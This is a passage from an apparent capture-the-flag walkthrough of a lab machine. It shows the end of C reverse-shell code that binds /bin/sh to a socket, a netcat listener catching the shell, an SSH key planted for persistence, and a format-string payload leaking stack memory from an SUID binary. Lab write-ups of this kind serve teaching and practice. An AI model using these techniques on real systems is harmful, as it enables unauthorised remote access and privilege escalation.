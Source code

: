 ```c
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
    return 0; 
}
```

I setup a listener on port 443, submitted the code, and got a shell on the target as user mike. 

```
# nc -lvp 443
listening on [any] 443 ...
192.168.180.130: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.180.129] from (UNKNOWN) [192.168.180.130] 44881
id
uid=1001(mike) gid=1001(mike) groups=1001(mike)
```

To make things easier, I copied over my SSH key into mike's .ssh/authorized_keys file and logged in via SSH. 

I found a binary called my_first in mike's home directory that was SUID john. This seemed to be the next logical step in privilege escalation. Running my_first presented an interactive menu: 

```text
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
```

Option 1 was the most interesting. It would prompt for two numbers and return their sum. With some basic fuzzing, I found that it was vulnerable to a format string bug when the second number wasn't a number: 

```
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 1

Enter first number: 123
Enter second number: AAAABBBB.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Error details: AAAABBBB.bfe390dc.a.4005e160.401d0ac0.40020ff4.40021918.bfe390e0.41414141.42424242.2e78252e.252e7825

Selection: 
```
